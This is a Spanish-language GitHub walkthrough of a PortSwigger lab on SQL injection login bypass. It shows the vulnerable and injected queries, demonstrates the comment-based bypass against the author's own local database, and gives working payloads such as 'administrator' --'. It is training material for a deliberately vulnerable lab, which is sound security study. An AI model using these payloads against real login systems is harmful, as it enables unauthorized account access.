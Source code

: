 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

#### Query original:

````sql
select id,username,subscription from users where username = 'administrator' and password = '@variable';
````

#### Query inyectada:

````sql
select id,username,subscription from users where username = 'administrator'-- -' and password = '@variable';
````

---

### Explicación con Lab:

1. Hago exactamente que el ejemplo original, pero adaptado con un `username` de mi base de datos.
- Ojo!!! Como no tengo el **password** y solo el tengo el **username**, me marcará un resultado vacío:

````sql
select id,username,subscription from users where username = 'F0n3' and password = 'no_tengo_idea_del_password_:P';
````
````py
Empty set (0.000 sec) # <<<---|| Resultado vacío!!!
````

2. Si utilizo el **password** correspondiente me debería regresar un resultado, como se planeó originalmente: 

````sql
select id,username,subscription from users where username = 'F0n3' and password = 'p@ssw0rd123-1';
````
````py
+----+----------+--------------+
| id | username | subscription |
+----+----------+--------------+
|  2 | F0n3     | 1            |
+----+----------+--------------+
````

3. Si agrego el payload `F0n3' --` ya no importa el query para validar el password, ya que arrojará todo lo que sea igual a `F0n3`... sin importar el **password**!!! Muahaha!!!

````sql
# Version Web
select id,username,subscription from users where username = 'F0n3' -- -' and password = 'Ya_no_importa_nada_que_escriba_aquí_lol!';

# Consola SQL
select id,username,subscription from users where username = 'F0n3'; -- -'; and password = 'Ya_no_importa_nada_que_escriba_aquí_lol!';
````
````py
+----+----------+--------------+
| id | username | subscription |
+----+----------+--------------+
|  2 | F0n3     | 1            |
+----+----------+--------------+
````

## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

2. Ingresar el usuario `administrator` con el payload `administrator' --` o `administrator' -- -` o `administrator' #` _(O cualquiera de sus versiones)_

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/cb2feaac-5eef-4207-9786-15aa382ef97d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/f19586fc-90f0-46e3-8172-66a0c69ccdf9)





